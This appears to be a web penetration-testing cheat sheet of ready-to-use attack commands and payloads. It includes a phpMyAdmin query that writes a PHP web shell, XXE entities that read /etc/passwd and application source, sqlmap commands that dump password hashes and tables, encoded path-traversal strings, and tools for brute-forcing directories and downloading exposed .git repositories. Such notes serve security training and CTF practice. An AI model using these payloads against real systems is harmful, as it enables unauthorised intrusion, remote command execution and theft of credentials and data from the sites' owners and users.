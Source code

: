 # 🕸️ Web

- [BruteForce](#bruteforce)
- [Download .git](#download-.git)
- [Influx DB](#influx-db)
- [Mysql](#mysql)
- [Path traversal](#path-traversal)
- [PhpMyAdmin](#phpmyadmin)
- [Request](#request)
- [SQL Injection](#sql-injection)
- [XML external entity (XXE)](#xml-external-entity-xxe)

## BruteForce
### Wordlist
| Name                      | Path                                                                    |
|---------------------------|-------------------------------------------------------------------------|
| Dirbuster Small           | `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`           |
| Dirbuster Small Lowercase | `/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt` |
| Dirb                      | `/usr/share/dirb/wordlists/common.txt`                                  |

### ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/FUZZ'
```
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/ -H 'Host: FUZZ.host'
```

### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Dirb
```
dirb url -R
```

### GUI
```
dirbuster
```
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

## MySql
### Connect to mysql
```
mysql -h localhost -u myname -p
```
### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
select * from table_name
```
### Open SQLite3
```
sqlite3 database.sqlite3
```
or open in vs code

## Influx DB

[CVE-2019-20933 Influxdb](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

```
> show databases # to display databases
> show field keys # field keys (like columns in sql)
> show measurements # to display measurements (like tables in sql)
{
  ...
  "results": [
    "values": [
        [
            <strong>"foo"</strong>
        ]
    ]
  ...
}
> select * from "foo" # display all content of measurments (table) 'foo' (keep the doubles quotes)
```

## SQL Injection
### SQLmap
```
sqlmap -r req --batch
sqlmap -r req --batch --passwords
sqlmap -r req --batch --dbs
sqlmap -r req --batch --fetch --tables -D db
sqlmap -r req --batch --dump -T table -D db
```

## Request
### Curl
```
curl 'http://example.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=login&password=pass'
```

### Python (requests)
```python
import requests

s = requests.session()
# s.proxies = {
#   "http": "localhost:8080",
#   "https": "localhost:8080",
# }

r = s.get('http://example.com')
print(r.text)
r = s.post('http://example.com/submit',
    headers={
        'Content-type': 'raw',
    },
    data={'user': 'guest'},
    # auth=('username', 'password')
)
print(r.status_code, r.url)
```


## Path traversal

[Bypassing with Unicode Compatibility](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html)

[File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

```
︰/︰/︰/︰/︰/︰/︰/︰/︰/etc/passwd
..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/..%252f/%252f/etc/passwd
..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252e%252e%252e%252fetc%252fpasswd%00
```

## Download .git
```
githacker --url http://url/.git/ --folder result
```
[Source](https://github.com/WangYihang/GitHacker)